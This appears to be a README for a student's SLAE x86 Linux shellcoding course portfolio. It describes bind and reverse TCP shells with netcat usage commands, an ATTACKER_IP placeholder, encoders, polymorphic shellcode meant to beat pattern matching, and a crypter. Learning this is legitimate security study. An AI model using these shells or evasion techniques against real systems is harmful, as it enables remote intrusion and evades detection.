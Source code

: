 <img src="SHELLCODING32.png" alt="SLAEx86" width="100"/>

# x86 Assembly Language and Shellcoding on Linux
# SLAEx86 : Student ID: PA-1191
### Assignment 1
Create a Shell Bind TCP Shellcode
- Binds to a port
- Execs shell on incoming connection
- Port number should be easily configurable
```
Implemeted the TCP Bind Shell shellcode 
Usage : 

=> gcc shellcode_with_configurable_port.c -zexecstack -fno-stack-protector -o bind_shell
=> ./bind_shell <PORT_TO_BIND>

Victim Machine => ./bind_shell 9999 

Attacker Machine => nc 127.0.0.1 9999

Blog : https://oxhat.blogspot.com/2018/04/coding-custom-tcp-bind-shell-shellcode.html
```
### Assignment 2
Create a Shell Reverse Tcp Shellcode
- Reverse connect to configured IP and Port
- Execs shell on incoming connection
- IP and Port should be easily configurable
```
Implemeted the TCP Reverse Shell shellcode 
Usage example : 

=> gcc shellcode_with_configurable_port.c -zexecstack -fno-stack-protector -o reverse_shell
=> ./reverse_shell <ATTACKER_IP TO CONNECT> <ATTACKER_PORT_TO_CONNECT>

Attacker Machine => nc -nlvp 8888

Victim Machine => ./reverse_shell 127.0.0.1 8888  

Blog : https://oxhat.blogspot.com/2018/04/coding-custom-tcp-reverse-shell.html
```
### Assignment 3
Study about Egg Hunter Shellcode
- Create a working demo of the Egg Hunter
- Should be configurable for different payload

### Assignment 4
Create a custom encoding scheme  like "Insertion Encoder" we showed you
- Poc using execve-stack as the shellcode to encode your schema and execute
```
Implemented a custom encoder where each shellcode value is xored and duplicated to generate the final shellcode
Implemented a custom decoder to decode the encoded shellcode

Usage:
generating encoded shellcode 

Put the shellcode inside the custom_insertion_encoder.py
=> python custom_insertion_encoder.py

decoding and executing
copy and put the encoded shellcode inside the nasm file
=> nasm custom_insertion_decoder.nasm -felf32 -o custom_insertion_decoder.o
=> ld custom_insertion_decoder.o -o custom_insertion_decoder
=> ./custom_insertion_decoder

Blog : https://oxhat.blogspot.com/2019/04/coding-custom-insertion-encoder-and.html
```
### Assignment 5
Take up at least 3 shellcode sample created using Msfpayload for linux/x86
- Use GDB/Ndisasm/Libemu to dissect the functionality of the shellcode
- Present your analysis
```
As msfpayload is outdate, all the payloads are created using msfvenom

1. Analysis of linux/x86/adduser shellcode

2. Analysis of linux/x86/chmod shellcode

3. Analysis of linux/x86/exec shellcode

Blog : https://oxhat.blogspot.com/2019/04/analyzing-shellcode.html
```
### Assignment 6
Take upto 3 shellcode from shell-storm and create a polymorphic versions of them to beat patten matching
- The polymorphic versions cannot be larger 150% of the existing shellcode
- Bonus point for making it shorter in length than original
```
1. Implemented 2 polmorphic versions of exit() shellcode 

2. Implmented polymorphic version of cat /etc/password shellcode

3. Implemented a polymorphic and obfuscated version of commandline netcat 

Blog : https://oxhat.blogspot.com/2019/04/polymorphic-shellcodes.html
```
### Assignment 7
Create a custom crypter like the one shown in "crypters" video.
- Free to use any existing encryption schema.
- Can use any programming language.
```
1. Implemented a crypter with encrytion based on one time pad.

Blog : https://oxhat.blogspot.com/2019/04/coding-custom-crypter.html 
```
### Additional Assignments
```
1. Implemented a shellcode for chdir() 
```
### Scripts
```
1. Implmented a bash automation script to generate shellcode from binary
usage: dump.sh binary
There is also an extended version of this inside the same directory.
Sometimes the script does not dump all the shellcode properly so the extended version is used.

2. Implemented an automation script to generate a C code with an embedded shellcode inside it.
usage : python shellcode_template.py filename.c "\x41\x41\x41x\41"
```
